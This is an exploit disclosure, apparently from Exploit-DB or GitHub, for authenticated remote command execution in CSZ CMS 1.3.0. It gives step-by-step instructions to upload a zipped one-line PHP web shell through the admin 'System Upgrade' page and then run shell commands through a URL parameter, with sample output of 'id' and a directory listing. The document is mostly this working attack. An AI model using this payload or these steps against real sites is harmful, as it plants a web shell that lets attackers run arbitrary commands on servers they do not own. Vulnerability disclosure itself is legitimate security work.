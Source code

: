 # CSZ CMS
## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.

4. Execute commands remotely:
   - Test the execution with the `id` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
     ```
     Expected output:
     ```
     uid=1000(soft) gid=1000(soft) groups=1000(soft)
     ```
   - List directory contents using the `ls` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls
     ```
     Expected output:
     ```
     CHANGELOG
     CONTRIBUTING.md
     LICENSE.md
     README.md
     SECURITY.md
     a.php
     assets
     cache.config.inc.php
     config.inc.php
     config_example.inc.php
     corecss.css
     corejs.js
     cszcms
     devtoolsbar.config.inc.php
     env.config.inc.php
     htaccess.config.inc.php
     index.php
     install
     memcached.config.inc.php
     nginx_example.com.conf
     photo
     poc.php
     proxy.inc.php
     redis.config.inc.php
     system
     templates
     test.php
     ```

